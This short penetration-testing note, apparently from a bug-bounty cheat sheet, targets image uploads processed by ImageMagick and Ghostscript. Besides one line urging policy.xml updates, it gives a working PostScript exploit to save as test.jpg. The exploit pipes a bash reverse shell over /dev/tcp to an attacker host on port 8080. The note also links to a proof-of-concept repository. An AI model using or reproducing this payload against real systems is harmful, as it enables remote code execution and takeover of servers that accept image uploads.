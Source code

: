 ### Is there image uploading functionality and then they are doing some conversion in uploaded image? Maybe they are using imagemagick library for processing the image.
In imagemagick, everyone should update their policy.xml file so block other file extensions like  EPS,PS,PDF and XPS since all these have ways to trigger Ghostscript
save this PS file with test.jpg and see if you get rev shell or simply you can try to see dns query result.(outbound traffic may have been disabled)
```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/███/8080 0>&1') currentdevice putdeviceprops
```
Or visit this github `https://github.com/ImageTragick/PoCs`

##
